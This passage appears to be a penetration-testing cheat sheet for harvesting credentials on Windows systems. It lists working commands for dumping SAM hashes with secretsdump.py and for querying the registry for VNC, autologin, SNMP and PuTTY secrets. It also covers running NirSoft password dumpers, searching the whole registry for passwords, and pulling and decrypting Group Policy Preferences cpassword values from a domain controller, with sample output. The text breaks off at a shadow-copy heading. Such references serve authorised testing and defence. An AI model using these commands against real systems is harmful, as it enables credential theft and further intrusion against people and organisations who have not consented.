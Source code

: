 ```
```
#### Kali VM
```
$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
### VNC  
```
reg query "HKCU\\Software\\ORL\\WinVNC3\\Password"  
reg query "HKCU\\Software\\TightVNC\\Server"  
```
### Windows autologin  
```
reg query "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\Currentversion\\Winlogon"  
reg query "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\Currentversion\\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  
```
### SNMP Paramters  
```
reg query "HKLM\\SYSTEM\\Current\\ControlSet\\Services\\SNMP"  
```
### Putty  
```
reg query "HKCU\\Software\\SimonTatham\\PuTTY\\Sessions"  
```
### Windows Data Protection API 
Dump passwords with [Netpass](http://www.nirsoft.net/utils/network_password_recovery.html):
```
netpass.exe
```
### IE/Outlook/MSN
Dump passwords with [Protected Storage PassView](http://www.nirsoft.net/utils/pspv.html):
```
pspv.exe
```
NirSoft offers many [tools](http://nirsoft.net/utils/index.html#password_utils) to recover passwords stored by third-party software.
### Raw text search
```
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s  
REG QUERY HKLM /F "password" /t REG_SZ /S /K 
REG QUERY HKCU /F "password" /t REG_SZ /S /K
```
### Domain Controllers
#### GPP
Browse shares on the domain controller for passwords in Group Policy Preferences (GPP) that can be [decrypted](http://carnal0wnage.attackresearch.com/2012/10/group-policy-preferences-and-getting.html):
```
C:\> findstr /S cpassword \\dc1.securus.corp.com\sysvol\*.xml
\\192.168.122.55\sysvol\securus.corp.com\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml: ="" description="" cpassword="1MJPOM4MqvDWWJq5IY9nJqeUHMMt6N2CUtb7B/jRFPs" changeLogon="0" noChange="0" neverExpires="0" acctDisabled="1" subAuthority="RID_ADMIN" userName="Administrator (built-in)"/>
C:\> ruby gppdecrypt.rb 1MJPOM4MqvDWWJq5IY9nJqeUHMMt6N2CUtb7B/jRFPs1q2w3e4r5t
```
####  AD database (Volume Shadow Copy)
##### Windows VM